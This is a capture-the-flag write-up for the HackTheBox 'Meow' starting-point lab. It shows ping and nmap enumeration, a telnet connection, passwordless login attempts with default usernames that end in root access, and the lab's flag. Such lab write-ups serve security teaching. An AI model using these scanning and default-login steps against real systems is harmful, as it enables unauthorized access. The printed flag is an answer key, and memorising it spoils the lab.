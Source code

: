 ```yaml
---
title: "HackTheBox - Meow"
date: 2023-12-24 05:44:00 +0700
categories: [HackTheBox, Starting Point]
tags: [very easy, misc, telnet]
image:
    path: /assets/img/htb/Meow.png
    alt: Meow - HackTheBox
---
```


[**Meow**](https://app.hackthebox.com/starting-point) is one of the Starting Points from [**HackTheBox**](https://app.hackthebox.com/), where in CTF Meow we will learn about **Telnet**.

## Introduction

- Connect **Meow** using **Pwnbox** or **OpenVPN**.
- Spawn machine.

## Enumeration

To check the target connection and port, we can use **Ping** and **Nmap**.

### Ping

After connect with Meow, then `ping` Target IP.

```bash
❯ ping 10.129.49.190

PING 10.129.49.190 (10.129.49.190) 56(84) bytes of data.
64 bytes from 10.129.49.190: icmp_seq=1 ttl=63 time=778 ms
64 bytes from 10.129.49.190: icmp_seq=2 ttl=63 time=353 ms
64 bytes from 10.129.49.190: icmp_seq=3 ttl=63 time=255 ms
64 bytes from 10.129.49.190: icmp_seq=4 ttl=63 time=566 ms
64 bytes from 10.129.49.190: icmp_seq=5 ttl=63 time=225 ms

--- 10.129.49.190 ping statistics ---
5 packets transmitted, 5 received, 0% packet loss, time 4002ms
rtt min/avg/max/mdev = 224.682/435.502/778.336/208.966 ms
```

### Nmap

Scan all open port of target with `nmap`, `-sCV` is a combination of `-sC` and `-sV`, where `-sC` displays the script for the port and `-sV` displays the version info for the port. 

```bash
❯ nmap -sCV 10.129.49.190

Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-24 07:18 WIB
Nmap scan report for JSN.JaringanKU (10.129.49.190)
Host is up (1.2s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 170.93 seconds
```

You can see that the open port at `23/tcp` is for the **Telnet** service.

```bash
❯ telnet 10.129.49.190

Trying 10.129.49.190...
Connected to 10.129.49.190.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: 
```

## Foothold

We can try login without password using usernames bellow :
- admin
- administrator
- root

```bash
Meow login: admin
Password: 

Login incorrect
Meow login: administrator
Password: 

Login incorrect
meow login: 
```

### Telnet

Last try we can use root username.

```bash
Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 24 Dec 2023 12:32:04 AM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             136
  Users logged in:       0
  IPv4 address for eth0: 10.129.49.190
  IPv6 address for eth0: dead:beef::250:56ff:fe96:4e0a

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0

root@Meow:~#
```

Once we get into Telnet from the target, let's look for the flag.

```bash
root@Meow:~# ls
flag.txt  snap

root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
```